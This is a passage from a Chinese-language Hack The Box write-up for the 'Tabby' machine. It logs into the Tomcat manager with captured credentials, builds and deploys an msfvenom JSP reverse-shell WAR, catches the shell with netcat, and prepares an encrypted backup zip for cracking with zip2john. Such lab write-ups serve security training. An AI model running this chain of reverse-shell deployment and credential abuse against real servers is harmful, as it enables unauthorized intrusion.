 └─# curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:2:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs

```

参考[hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat)里的方法

编译反弹shell
```msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.3 LPORT=4242 -f war -o revshell.war```


上传反弹shell
```
┌──(root💀kali)-[~/htb/Tabby]
└─# curl --upload-file revshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/revshell"
OK - Deployed application at context path [/revshell]

```

浏览器打开：```http://10.10.10.194:8080/revshell/```


拿到反弹shell
```
┌──(root💀kali)-[~/htb/Tabby]
└─# nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.194] 50070
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)

```

# user

在```/var/www/html/files```找到一个加密zip文件```16162020_backup.zip```

下载到本地后用zip2john转成john可以识别的格式
```
┌──(root💀kali)-[~/htb/Tabby]
└─# /usr/sbin/zip2john 16162020_backup.zip >zip.hash   
16162020_backup.zip/var/www/html/assets/ is not encrypted!
ver 1.0 16162020_backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/favicon.ico PKZIP Encr: 2b chk, TS_chk, cmplen=338, decmplen=766, crc=282B6DE2
ver 1.0 16162020_backup.zip/var/www/html/files/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=3255, decmplen=14793, crc=285CC4D6
ver 1.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/logo.png PKZIP Encr: 2b chk, TS_chk, cmplen=2906, decmplen=2894, crc=2F9F45F
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/news.php PKZIP Encr: 2b chk, TS_chk, cmplen=114, decmplen=123, crc=5C67F19E
ver 2.0 efh 5455 efh 7875 16162020_backup.zip/var/www/html/Readme.txt PKZIP Encr: 2b chk, TS_chk, cmplen=805, decmplen=1574, crc=32DB9CE3
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
